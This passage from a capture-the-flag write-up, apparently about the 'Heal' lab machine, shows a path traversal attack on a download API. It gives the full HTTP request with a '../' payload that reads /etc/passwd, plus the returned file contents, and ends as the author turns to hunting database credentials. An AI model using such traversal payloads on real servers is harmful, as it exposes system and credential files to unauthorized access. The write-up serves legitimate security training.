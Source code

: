 **Nope! Authorization is mandatory.** 😢

---

## 🎯 But Can We Download *Any* File?

The real fun began when I tested for **Path Traversal**:

```http
GET /download?filename=../../../../../etc/passwd HTTP/1.1
Host: api.heal.htb
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo3fQ.bN47YVxPM1ZVqbw4J7oHZeDc3ixY3KO6yZpM5M3nfZE
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/136.0.0.0
Origin: http://heal.htb
Referer: http://heal.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

I had to keep adding `../` until the server finally returned:

```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Disposition: attachment; filename="passwd"
```

…and the sweet, sweet content of `/etc/passwd` streamed back:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
ron:x:1001:1001:,,,:/home/ron:/bin/bash
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

---

## 🎉 Jackpot — Arbitrary File Download Confirmed!

The ability to download **arbitrary files** is a massive issue:

- Sensitive files like `/etc/passwd` are exposed.
- User home directories pop up (`ralph` and `ron`).
- The `postgres` user indicates a database might be installed locally.

---
## Hunting for Database Credentials
